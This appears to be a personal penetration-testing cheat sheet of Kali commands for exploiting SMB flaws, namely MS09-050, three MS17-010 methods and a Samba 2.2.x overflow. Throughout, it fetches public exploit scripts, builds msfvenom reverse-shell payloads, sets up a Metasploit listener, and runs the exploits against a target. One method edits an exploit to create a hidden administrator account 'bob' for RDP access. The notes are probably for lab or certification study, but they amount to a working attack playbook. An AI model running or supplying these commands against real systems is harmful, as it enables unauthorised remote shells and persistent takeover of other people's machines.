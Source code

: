 https://github.com/3ndG4me/AutoBlue-MS17-010
#### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```
```python - kal
pip2.7 install pysmb
```
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```
---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```
---
```bash - kali
sudo msfdb run
```
```bash - kali
use exploit/multi/handler
```
```bash - kali
set payload windows/shell/reverse_tcp
```
```bash - kali
set EXITFUNC thread
```
```bash - kali
run
```
```bash - kali
pip install pysmb -t .
```
```bash - kali
python MS09_050.py 192.168.110.40
```
```bash - kali
python3 ms09-050.py $TARGET
```
#### MS17-010 method 1
https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f
```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```
`The target is not patched`
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```
![[1._rlwrap]]
```bash - kali
python send_and_execute.py $TARGET ../../ms17–010.exe
```
#### MS17-010 method 2 (RDP)
```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
```bash - kali
searchsploit -m 42315
```
Edit 42315, replacing the block of code from 916 - 920 with the following:
```
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```
```bash - kali
python 42315.py $TARGET
```
```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```
#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```
![[1._rlwrap]]
```bash - kali
python 42031.py $TARGET exploit.bin
```
#### Samba 2.2.x - Remote Buffer Overflow
```
searchsploit -m 7
```
```
chmod +x 7.pl
```
```
./7.pl -t linx86 -H $KALI -h $TARGET
```